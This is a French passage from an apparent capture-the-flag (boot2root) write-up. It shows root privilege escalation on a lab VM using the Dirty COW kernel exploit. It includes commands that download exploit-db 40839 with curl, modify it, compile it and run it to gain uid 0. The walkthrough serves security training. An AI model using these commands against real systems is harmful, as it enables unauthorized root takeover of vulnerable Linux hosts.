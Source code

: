 Sachant que nous avons un shell stable, il est possible
de récupérer plus d'informations sur le système:

```bash
laurie@BornToSecHackMe:~$ uname -smr
Linux 3.2.0-91-generic-pae i686
```

En 2016, la vulnérabilité [Dirty Cow](https://www.wikiwand.com/fr/Dirty_COW) a été découverte et mise
publique. Le kernel étant assez ancien, nous allons rechercher quelques exploits avec `searchsploit`.

```bash
$ searchsploit "Linux Kernel < 3. Dirty"
```

![Searchsploit](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/searchsploit.png)

Apres plusieurs tests, nous avons choisis l'exploit [**40839**](https://www.exploit-db.com/exploits/40839):

```bash
$ curl https://www.exploit-db.com/raw/40839 -o dirty.c
$ sed -i s/firefart/root/ dirty.c # Change l'id de l'user
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty 42
```

![Searchsploit](https://raw.githubusercontent.com/deville-m/boot2root/master/.github/dirty.png)

Nous sommes en possession d'un shell en *uid=0*.
